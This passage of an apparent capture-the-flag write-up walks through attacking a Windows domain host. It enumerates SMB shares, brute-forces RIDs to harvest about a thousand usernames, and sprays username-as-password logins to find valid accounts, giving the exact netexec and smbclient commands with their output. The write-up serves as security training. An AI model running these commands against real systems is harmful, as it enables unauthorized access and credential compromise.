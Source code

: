 # Step 2: SMB Share Enumeration
Next, I enumerated SMB shares using smbclient with anonymous access to identify accessible resources:
smbclient -L //10.201.122.119 -N


Why: The -L flag lists available shares, and -N attempts anonymous access (no credentials).
Output: The command revealed several shares:
```ADMIN$
backup
C$
IPC$
NETLOGON
SYSVOL
Users
```

Observation: The backup and Users shares were of interest, as they might contain sensitive data. However, anonymous access failed to list workgroup details due to SMBv1 being disabled.

To confirm share permissions, I used netexec (nxc) with the guest account:
nxc smb 10.201.122.119 -u "guests" -p "" --shares


### Why: netexec is a versatile tool for enumerating SMB shares and testing credentials. Using the guests account with an empty password tests for weak authentication.
Output: Confirmed the same shares, with IPC$ having READ permissions for the guest account.


# Step 3: User Enumeration via RID Brute-Forcing
To identify valid user accounts, I performed RID (Relative Identifier) brute-forcing using netexec:
nxc smb 10.201.122.119 -u "guests" -p "" --rid-brute


Why: RID brute-forcing enumerates user and group SIDs (Security Identifiers) by querying the SMB service, leveraging the guest account's access to the IPC$ share.
```Output: A list of users and groups, including:
Administrator (RID 500)
Guest (RID 501)
krbtgt (RID 502)
Domain groups like Domain Admins, Domain Users, etc.
Custom users like bmark0, otara1, ybob317, etc.
```

Action: I extracted the usernames into a file (users.txt) using awk:

```nxc smb 10.201.122.119 -u "guests" -p "" --rid-brute | awk '{split($6,a,"\\"); print a[2]}' > users.txt```

Result: The users.txt file contained 1091 usernames, which I used for credential brute-forcing.


# Initial Access
Step 4: Credential Brute-Forcing
Using the users.txt file as both the username and password list, I attempted to find valid credentials with netexec:
```nxc smb 10.201.122.119 -u users.txt -p users.txt --no-bruteforce --continue-on-success```


Why: The --no-bruteforce flag tests each username with its corresponding password (e.g., ybob317:ybob317), and --continue-on-success continues testing even after finding valid credentials.
Output: Several accounts were identified as valid, including:
guests:guests
ybob317:ybob317
Various group accounts (e.g., Enterprise:Enterprise, Domain:Domain) with guest-level access.

```